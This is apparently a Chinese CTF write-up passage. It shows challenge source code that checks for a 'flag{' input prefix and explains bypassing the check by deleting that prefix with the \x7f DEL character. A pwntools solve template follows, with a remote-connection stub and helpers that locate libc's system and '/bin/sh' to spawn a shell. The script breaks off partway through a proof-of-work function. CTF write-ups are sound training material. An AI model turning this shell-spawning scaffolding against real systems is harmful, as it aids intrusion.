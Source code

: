 ```php
    if (cmpstr("flag{", buf)) {
        puts("wrong flag!");
        return 1;
    }

    unzip(buf);

    FILE *f = fopen("flag.txt", "r");
    if (!f) {
        puts("flag.txt not found");
        return 1;
    }
    fgets(buf, sizeof(buf), f);
    fclose(f);

    printf("flag: %s\n", buf);

    return 0;
}
```

题目是模仿终端输入，通过条件是输入的内容要有`flag{`开头，又要等于队伍token（包含flag{）

主要是利用ascii中的`\x7f`即del，对前面的flag{进行删除

```php
from pwn import *
from pwnlib.util.iters import mbruteforce
from hashlib import sha256,md5
from Crypto.Cipher import ARC4
context.arch='amd64'
context.os='linux'
context.log_level='debug'

choice=0
if choice==1:
    p=process('./pwn')
else:
    p=remote("url",10003)

s       = lambda data               :p.send(data)
sl      = lambda data               :p.sendline(data)
sa      = lambda x,data             :p.sendafter(x, data)
sla     = lambda x,data             :p.sendlineafter(x, data)
r       = lambda num=4096           :p.recv(num)
rl      = lambda num=4096           :p.recvline(num)
ru      = lambda x                  :p.recvuntil(x)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
uru64   = lambda                    :uu64(ru('\x7f')[-6:])
leak    = lambda name               :log.success('{} = {}'.format(name, hex(eval(name))))
libc_os   = lambda x                :libc_base + x
libc_sym  = lambda x                :libc_os(libc.sym[x])
def get_sb():
    return libc_base + libc.sym['system'], libc_base + next(libc.search(b'/bin/sh\x00'))
def debug(cmd=''):
    gdb.attach(p,cmd)
    pause()
def proof_of_work(p):
    p.recvuntil(b"256(\"")
    prefixes = p.recvuntil(b'\"').decode("utf8")[:-1]
    log.success(prefixes)
    def brute(cur):
```